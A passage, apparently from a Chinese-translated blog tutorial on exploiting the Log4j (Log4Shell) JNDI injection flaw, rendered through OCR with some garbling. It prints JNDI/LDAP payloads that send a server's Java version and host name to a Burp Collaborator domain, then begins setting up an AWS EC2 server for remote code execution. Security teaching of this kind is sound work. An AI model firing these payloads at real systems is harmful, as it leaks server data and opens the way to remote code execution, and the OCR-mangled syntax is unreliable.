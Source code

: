 os.name

为了获得 Java 版本，我们将使用这个版本:$ { JNDI:LDAP://$ { sys:Java . version } . XYZ . burpcollaborator . net/a }

![](img/0e3086dd48638fd55bdd5376ef8a6ed9.png)

您也可以尝试使用以下有效负载提取主机名:$ { JNDI:LDAP://$ { hostName } . XYZ . burpcollaborator . net/a }

## 远程代码执行:

为了执行任意命令，我们需要一个 VPS。对于这个博客，我们将使用 AWS EC2。首先，我们将创建一个 AWS EC2 实例。我用 Debian 10。为了安全起见，我将打开所有端口(否则您可能只打开端口 22、80、443、1389 和 8888)。

![](img/32d5e58120bc17ebf04403bacdffcbf4.png)
